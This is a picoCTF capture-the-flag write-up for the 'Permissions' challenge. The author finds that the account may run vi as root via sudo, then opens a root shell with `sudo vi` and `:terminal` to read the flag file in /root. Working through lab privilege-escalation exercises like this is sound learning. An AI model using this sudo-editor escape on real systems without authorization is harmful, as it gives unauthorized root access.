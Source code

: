 # PicoCTF - Permissions

## Challenge Overview
**Title:** Permissions  
**Category:** General Skills  
**Difficulty:** Medium  

## Description
Can you read files in the root file?

Additional details will be available after launching your challenge instance.

## Analysis
Upon connecting to the server, I try `ls /root` but as expected we are **not permitted**.  
I try adding `sudo` with the **same password** as the one used to **connect** and I see
```
picoplayer@challenge:~$ sudo ls /root
[sudo] password for picoplayer: 
Sorry, user picoplayer is not allowed to execute '/usr/bin/ls /root' as root on challenge.
```
Failed again, but we **know** the **password** for `sudo` is correct.

To **view** the **commands** I can run using `sudo` I use `sudo -l`
```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
We see that we **have access** to `vi`.  
`vi` is a **terminal editor** but we can also **launch** a **terminal** from it with the **same permissions** as it is run.

I will do the following:
- Launch `vi` with `sudo`
- Start a terminal inside `vi`

This **terminal** will also have **root privileges** since `vi` is run as root using `sudo`.

I run `sudo vi` and type `:terminal`.  
![Img](resources/vi.png)

![Img](resources/vi-terminal.png)

This **launches** a **terminal** with **root** privileges inside `vi`.  
Now we can view `/root` and get the flag.
```
root@challenge:/home/picoplayer# ls -al /root                                                                   
total 12                                                                                                        
drwx------ 1 root root   23 Aug  4  2023 .                                                                      
drwxr-xr-x 1 root root   51 Jun 30 11:23 ..                                                                     
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc                                                                
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt                                                              
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile                                                               
root@challenge:/home/picoplayer# cat /root/.flag.txt                                                            
picoCTF{____REDACTED____}
```

## Solution

- Connect to the server 
- Run `sudo vi`
- Enter `:terminal`
- Run `cat /root/flag.txt`